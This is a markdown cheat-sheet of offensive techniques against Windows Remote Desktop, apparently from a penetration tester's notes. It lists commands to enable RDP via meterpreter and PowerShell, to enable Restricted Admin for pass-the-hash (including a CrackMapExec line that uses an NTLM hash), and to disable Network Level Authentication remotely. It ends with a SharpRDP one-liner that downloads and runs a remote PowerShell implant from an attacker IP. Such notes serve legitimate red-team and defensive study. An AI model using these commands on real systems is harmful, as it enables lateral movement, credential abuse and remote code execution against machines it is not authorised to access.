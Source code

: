 # RDP

* [https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3)
* [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)




## Enable RDP

From meterpreter:

```
meterpreter > run getgui -e
```

From PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```




## Restricted Admin

* [https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [https://blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [https://labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [https://shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)

RDP with [PtH](http://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/): RDP needs a plaintext password unless Restricted Admin mode is enabled.

Enable with PowerShell:

```
PS > Get-ChildItem -Recurse HKLM:\System\CurrentControlSet\Control\Lsa
PS > Get-Item HKLM:\System\CurrentControlSet\Control\Lsa
PS > New-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name "DisableRestrictedAdmin" -Value 0 -PropertyType "DWORD"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name "DisableRestrictedAdmin"
```

Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Use:

```
$ xfreerdp /pth
Cmd > mstsc.exe /restrictedAdmin
```




## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## SharpRDP

* [https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)

```
Cmd > .\SharpRDP.exe computername=srv01 command="iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/grunt.ps1')" username=megacorp\snovvcrash password=Passw0rd!
```
